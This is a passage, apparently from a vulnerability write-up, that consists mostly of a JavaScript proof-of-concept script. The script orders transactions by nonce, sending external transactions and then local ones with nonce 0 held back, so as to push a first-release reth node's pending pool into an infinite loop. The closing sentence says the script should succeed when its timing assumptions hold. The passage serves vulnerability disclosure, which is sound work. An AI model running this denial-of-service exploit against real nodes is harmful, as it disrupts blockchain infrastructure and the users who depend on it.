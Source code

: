 ```javascript

  // create local txs with nonce=1-10 (inclusive)
  const targetLen = 10;
  const localTxs = [];
  for (let i = 0; i < targetLen; i++) {
    const nonceOffset = i + 1;
    const localTx = await createTx(wallets[0], wallets[3], nonceOffset, true);
    localTxs.push(localTx);
  }

  // send external txs (2 from each external sender)
  console.log("Sending external txs...");

  sendTx(tx0, false);
  sendTx(tx1, false);

  await sleep(1000);

  sendTx(tx2, false);
  sendTx(tx3, false);

  await sleep(1000);

  // send local txs, skipping nonce 0 so we can flush
  // from the queued pool to the pending pool with a single tx
  console.log("\nSending local txs...");

  for (let i = 0; i < targetLen; i++) {
    await sendTxGetHash(localTxs[i], true);
  }

  await sleep(1000);

  // send local tx with nonce 0
  sendTx(localTx0, true);

  // this print may not be reached
  console.log("\nExploit complete, pending pool should soon be stuck in infinite loop\n");
})();
```

There are some timing assumptions involved in this script, but if it works successfully, it should force the first release `reth` node into the pending pool infinite loop condition.
